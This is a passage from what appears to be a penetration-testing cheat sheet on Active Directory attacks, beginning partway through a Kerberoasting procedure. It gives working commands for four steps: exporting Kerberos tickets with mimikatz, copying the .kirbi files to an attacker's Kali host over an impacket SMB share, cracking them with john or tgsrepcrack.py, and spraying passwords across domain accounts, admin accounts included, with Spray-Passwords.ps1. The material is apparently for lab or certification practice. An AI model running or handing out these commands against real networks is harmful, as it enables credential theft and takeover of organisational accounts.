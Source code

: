         Cache Flags: 0
        Kdc Called: xor-dc01.xor.com
```        

step.3: Download the ticket

```mimikatz # kerberos::list /export```

(After download, you can find .kirbi files in the current directory)

step.4: send to Kali (You can also use ftp bin put)

On kali:

```$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .```

On Windows:

```copy 4-40a10000-xor-app59\$@HTTP\~ExchangeService.xor.com-XOR.COM.kirbi \\<kali's IPaddress>\kali\```

step.5: Cracking Tickets (on Kali)

Convert for using john:

```$ kirbi2john.py -o forjohn.txt 2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi```

Cracking:

```$ john --format=krb5tgs forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt```

[*] When you connect with the password you got from the above method, be careful for "user name"

Not using john, but using kerberoast tgsrecrack.py:

```$ python /kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000- Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi```

# Active Directory Users Password Attack
(https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)

Open the PowerShell, execute on PowerShell.

```PS C> powershell -ep bypass .\Spray-Passwords.ps1 -Pass Qwerty09! -Admin```


(1) 
```PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016'```

- Test the password 'Summer2016' against all active user accounts, except privileged user accounts (admincount=1).

(2) ```PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins```

- Test the password 'Summer2016' against all active user accounts, including privileged user accounts (admincount=1).

(3) ```PS C:\> .\Spray-Passwords.ps1 -File .\passwords.txt -Verbose```

- Test each password in the file 'passwords.txt' against all active user accounts, except privileged user accounts (admincount=1).
- Output script progress/status information to console.

(4) ```PS C:\> .\Spray-Passwords.ps1 -Url 'https://raw.githubusercontent.com/ZilentJack/Get-bADpasswords/master/BadPasswords.txt' -Verbose```

- Download the password file with weak passwords.
```